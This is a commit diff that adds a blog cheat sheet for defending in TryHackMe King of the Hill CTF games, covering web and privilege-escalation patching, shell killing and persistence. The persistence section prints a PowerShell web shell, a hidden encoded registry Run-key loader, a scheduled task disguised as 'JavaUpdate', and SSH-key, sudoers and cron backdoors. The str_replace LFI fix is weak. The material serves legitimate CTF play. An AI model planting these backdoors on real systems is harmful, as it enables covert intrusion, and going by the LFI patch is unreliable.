

Before and after one commit to Noxtal/blog.noxtal.com, a Jekyll site: the page built from index.html, in a window 1280 px wide, cut to the strip 174-1338 px from the top of the page. Shown: the whole strip, without its empty margins (233-1021 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; a style sheet for code colours, icons or effects is not loaded; before the commit the page ends 1066 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown.

Commit message:
The Ultimate KOTH Defense Guide

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -11,7 +11,7 @@
 github_repository: https://github.com/Noxtal/noxtal.com
 addthis_id: ra-5f07cbdc7e5d39c3
 adsense: ca-pub-6140612341069656
-post_limit: 5
+post_limit: 10
 
 # Social usernames/URLs
 twitter_username: noxtal_
--- /dev/null
+++ b/_posts/2020-08-08-ultimate-koth-defense-guide.md
@@ -0,0 +1,332 @@
+---
+layout: post
+title: The Ultimate KOTH Defense Guide
+summary: This cheatsheet features techniques and in-depth explanations on how to correctly defend the king's title and protect yourself in a TryHackMe King of the Hill game. This was made in collaboration with my friend xCthulhu from my CTF team. Huge thanks to him! He also has a website featuring excellent writeups and cheatsheets you might not want to miss!
+date: 2020-08-08
+categories: cheatsheets
+author: Noxtal & xCthulhu
+thumbnail: defense
+tags:
+- tryhackme
+- koth
+- defense
+- patching
+- aggressive defense
+- persistence
+- web
+- aliases
+- port migration
+---
+
+This cheatsheet features techniques and in-depth explanations on how to correctly defend the king's title and protect yourself in a TryHackMe King of the Hill game. This was made in collaboration with my friend [xCthulhu](https://onoma.cf/) from my [CTF team](https://discord.gg/CDACNFg). Huge thanks to him! He also has a website featuring excellent writeups and cheatsheets you might not want to miss! [Here](https://onoma.cf/) is the link.
+
+-----
+
+- [Common Web Patching](#common-web-patching)
+  - [PHP LFI](#php-lfi)
+  - [PHP Insecure File Upload](#php-insecure-file-upload)
+  - [RCE](#rce)
+    - [PHP Arbitrary Code Execution](#php-arbitrary-code-execution)
+    - [Outdated Software CVE](#outdated-software-cve)
+- [PrivEsc Patching](#privesc-patching)
+  - [SUID Binaries](#suid-binaries)
+    - [Discovery](#discovery)
+    - [SUID Patch](#suid-patch)
+    - [SGID Patch](#sgid-patch)
+  - [NOPASSWD](#nopasswd)
+    - [Remove user from sudoers](#remove-user-from-sudoers)
+  - [Vulnerable Program](#vulnerable-program)
+- [Aggressive Defense](#aggressive-defense)
+  - [pts killing and breaking](#pts-killing-and-breaking)
+  - [Terminal NyanCat](#terminal-nyancat)
+    - [How is it important?](#how-is-it-important)
+    - [But wait!](#but-wait)
+  - [chattr (used for the king.txt file)](#chattr-used-for-the-kingtxt-file)
+- [Port Migration](#port-migration)
+    - [Config](#config)
+- [Persistence](#persistence)
+    - [Why is it important to have a persistence?](#why-is-it-important-to-have-a-persistence)
+    - [Persistence Implant](#persistence-implant)
+  - [Windows](#windows)
+    - [Registry Persistence](#registry-persistence)
+  - [Linux](#linux)
+    - [SSH Key](#ssh-key)
+    - [PHP Command Execution](#php-command-execution)
+    - [Sudoers](#sudoers)
+  - [Persistence Trigger](#persistence-trigger)
+    - [Windows](#windows-1)
+      - [Schedule tasks Persistence](#schedule-tasks-persistence)
+    - [Linux](#linux-1)
+      - [Cronjob](#cronjob)
+
+# Common Web Patching
+## PHP LFI
+Basic `../` filter using `str_replace`:
+1. Find the line with the inclusion by searching for the `includes` function in the code.
+2. Replace the `$_GET['VARIABLE']` statement with the code below to get rid of `../`, disabling path traversal.
+
+```php
+str_replace("../","",$_GET['VARIABLE'])
+```
+
+## PHP Insecure File Upload
+Upload files to a custom directory:
+1. In the web directory, create your custom upload directory using `mkdir`. Name it something that should not be found by busters (ex.: gobuster). Your username is very likely not to be detected by those, it could be a good naming option.
+2. Search in the source for the function that moves input files to a target directory.
+3. Replace the target file path as shown below (using `move_uploaded_file` as an example).
+
+```php
+move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], "/YOUR_DIRECTORY/" . $_FILES["fileToUpload"]["name"])
+```
+
+Change filename to something unpredictable:
+1. Search in the source for the function that moves input files to a target directory.
+2. Replace the target file path as shown below (using `move_uploaded_file` as an example).
+
+```php
+move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], "/uploads/" . uniqid() . pathinfo($_FILES["fileToUpload"]["name"],PATHINFO_EXTENSION))
+```
+
+## RCE
+### PHP Arbitrary Code Execution
+Be certain to remove or replace as much `eval(...)` and `assert(...)` function calls as possible the server-side PHP code, as they can lead to arbitrary code execution.
+
+### Outdated Software CVE
+Some frameworks can have a RCE CVE. The *lion* KOTH box is a good example of this, implying a Nostromo RCE CVE on port 8080. You might want to check [my writeup](https://noxtal.com/writeups/2020/07/11/tryhackme-koth-lion/) on that box for more information.
+
+The ideal way to patch that would be to update the outdated software. This can be hard to achieve in TryHackMe King of the Hill since all boxes have no Internet access. With that said, another conceivable solution exists. It consists of replacing the target software with something equivalent. For instance, you could use an updated version of Python's *http.server* module to replace an outdated version of Nostromo (as mentioned in my writeup).
+
+# PrivEsc Patching
+## SUID Binaries
+SUID (Set User ID) is a type of permission that is given to a file and allows users to execute the file with the permission of its owner. However, some of the existing binaries can be used to escalate privileges to root if they have the SUID permission.
+
+```
+-r-sr-sr-x
+```
+
+- The first 's' stands for the SUID.
+- The second 's' stands for the SGID.
+– When a command or script with SUID bit set is run, its effective UID becomes that of the owner of the file, rather than of the user who is running it.
+
+### Discovery
+
+Find SUID privescs using the following commands:
+```bash
+find / -perm -u=s -type f 2>/dev/null
+```
+
+Find SGID privescs using the following commands:
+```bash
+find / -perm -g=s -type f 2>/dev/null
+```
+
+### SUID Patch
+This removes the SUID bit in a file or binary.
+```
+chmod u-s file_name
+```
+
+### SGID Patch
+This removes the SGID bit in a file or binary.
+```
+chmod g-s file_name
+```
+
+## NOPASSWD
+Whenever a program can be run as **root**(*sudo*) without a password, it has an extremely high chance to become a privesc. You can check for those using `sudo -l`
+
+1. Open the /etc/sudoers file.
+2. Look for the line containing the name of the user allowed to run the privesc.
+3. Remove the part from the line starting with the following: `NOPASSWD:`
+
+### Remove user from sudoers
+If a user seems to have too much *sudo* permissions, you can delete it completely from the sudoers file using the method below.
+
+1. Open the /etc/sudoers file.
+2. Delete the line containing the name of the user you want to remove permissions from.
+
+## Vulnerable Program
+To patch a program with wrong permissions or being dangerous, reset its permissions, make root be the only one to own it and move the program to `/usr/sbin`. This directory is made for the most potentially dangerous programs that users shouldn't be allowed to use.
+
+```bash
+chmod 000 /path/to/program && chown -u root && mv file /usr/sbin
+```
+
+# Aggressive Defense
+**DISCLAIMER**
+> Do not use the following techniques unless they are permitted AND needed. These can quickly make a KOTH game become unfair, use them with prudence.
+
+## pts killing and breaking
+Find your `pts` number:
+```bash
+who # Find your IP in the list to find your pts
+# OR
+tty
+# OR
+ps aux | grep $$ # Then, look at the pts number from the result.
+```
+
+Find enemy `pts`:
+```bash
+who # Lists by ip
+
+ps aux | grep pts # Lists by processes
+# Then, look for a pts that is not yours
+# (check your pts number first)
+```
+
+Kill a shell (`pts`):
+```bash
+# Choose a PID ($PID) belonging to your target's pts (found using the previous 'ps -aux' method)
+
+kill -9 $PID
+
+# To check if the pts have been killed, reuse the find command (ps aux | grep pts)
+# If this pts can still be seen on the list, try killing every other PIDs using this methodology
+```
+
+Break a shell (`pts`) using `urandom`:
+```bash
+# Find a target pts number ($PTS), then run the following command
+cat /dev/urandom > /dev/pts/$PTS
+```
+
+## Terminal NyanCat
+![NyanCat](https://camo.githubusercontent.com/dcf9c2c224d06a7be6dc2b69e993e9f0a252952c/687474703a2f2f6e79616e6361742e64616b6b6f2e75732f6e79616e6361742e706e67)
+
+### How is it important?
+It is very important to **HAVE FUN** during the game unless you are a competitive player.
+It is important to showcase your nyancat to every player you are playing with. But how?
+Here are the simple steps:
+
+```bash
+git clone https://github.com/klange/nyancat.git && cd nyancat # Clone the files from the git repository
+make && cd src # Build the application
+./nyancat # Run the binary and enjoy!
+```
+
+### But wait!
+That's unfair. You are the only one who enjoys the nyancat!
+Transfer the binary to the machine and show it to your fellow players by doing the steps below.
+
+```bash
+sudo python3 -m http.server 80 # Initiate a web server
+wget http://yourip/nyancat # On the KOTH machine, wget the file from your machine
+chmod +x nyancat # Make it an executable
+./nyancat | wall # Show it to your fellow players!
+```
+
+## chattr (used for the king.txt file)
+Use `chattr` to set the immutability bit on the king.txt file and make it unwritable until another player does the inverse. You can also remove `chattr` from the system to make sure no one removes this protection.
+
+Add the immutability bit:
+```bash
+chattr +i /root/king.txt
+```
+
+Remove the immutability bit:
+```bash
+chattr -i /root/king.txt
+```
+
+Remove chattr:
+```bash
+which chattr # Get chattr's path, default: /usr/bin/chattr
+
+rm usr/bin/chattr # Or another path if different
+```
+
+# Port Migration
+Since disabling services is illegal in a KOTH (King of the Hill) game, what we can do is to move the services into a different port. This way, we do not kill a certain service but we patched it by migrating it into a different port.
+
+The best example is an SSH Service running on port 22. We can move it to any port that you only know to minimize SSH Bruteforce attacks and other players that have ssh credentials.
+
+By editing the ssh config file, and setting the port to your desired port.
+### Config
+```
+# old config
+Port 22
+
+# new config
+Port 1337
+```
+Change 1337 to any port that you desire then restart the ssh service.
+
+# Persistence
+A lot of time and effort is spent just for gaining initial access to a machine, thus you must maintain access to your target. This is why persistence is the key component of how to do it.
+
+### Why is it important to have a persistence?
+
+Once you have established your persistence in your target system, you will have continual access to the system. This is vital since we do not know when we will be going to be kicked in the machine, power loss, network problems, and machine reboots.
+
+In doing persistence, there are two components that you should always remember.
+
+1. Implant
+2. Trigger
+
+### Persistence Implant
+Persistence implant is the payload or file that is going to be implanted into the target machine. It can be a binary, an executable file (EXE), a Dynamic Link Library (DLL), or some reverse shell commands embedded in some services.
+
+More advanced techniques involve malwares, trojans, and rootkits.
+
+## Windows
+
+### Registry Persistence
+```posh
+function Registry-Persistence {
+  [CmdletBinding()]
+  Param{}
+  try {
+    $query = '"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -w hidden -c "$a=(Get-ItemProperty HKCU:\Software\Microsoft\Windows\CurrentVersion\Run).DisableHelpStickerData;powershell -w hidden -enc $a"'
+    if ( -not (Test-RegEntry $RegKey $RegName) -and not (Test-RegEntry $RegKey $RegNameData))
+    {
+      Write-Host "Making the Persistence"
+      New-ItemProperty $RegKey -Name $RegName -Value $query | Out-Null
+      New-ItemProperty $RegKey -Name $RegNameData -Value $Payload | Out-Null
+      Write-Host "Persistence Done!"
+    }
+
+    else { Write-Host "Persistence already exists!" }
+  }
+  catch { Write-Host "Try again."}
+}
+```
+
+## Linux
+
+### SSH Key
+```bash
+echo "my_id_rsa.pub" > /target machine/root/.ssh/authorized_keys
+```
+
+### PHP Command Execution
+```php
+<?php
+    if (isset($_REQUEST['cmd'])) {
+        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
+    }
+?>
+```
+
+### Sudoers
+```
+<YOUR_USERNAME>        ALL=(ALL)        NOPASSWD: ALL
+```
+## Persistence Trigger
+Persistence trigger is what will make our payload execute. We can either use cronjobs, services, registry, or scheduled tasks.
+
+### Windows
+
+#### Schedule tasks Persistence
+```posh
+PS C:\ ScheduledTask-Persistence - Time 13:45 -TaskName JavaUpdate -Payload "powershell.exe -exec bypass -nop -w hidden -File 'c:\windows\temp\grouppolicy.ps1'"
+```
+
+### Linux
+
+#### Cronjob
+```bash
+CT=$(crontab -l)
+CT=$CT$'\n10 * * * * yourcommandhere'
+printf "$CT" | crontab -
+```
````
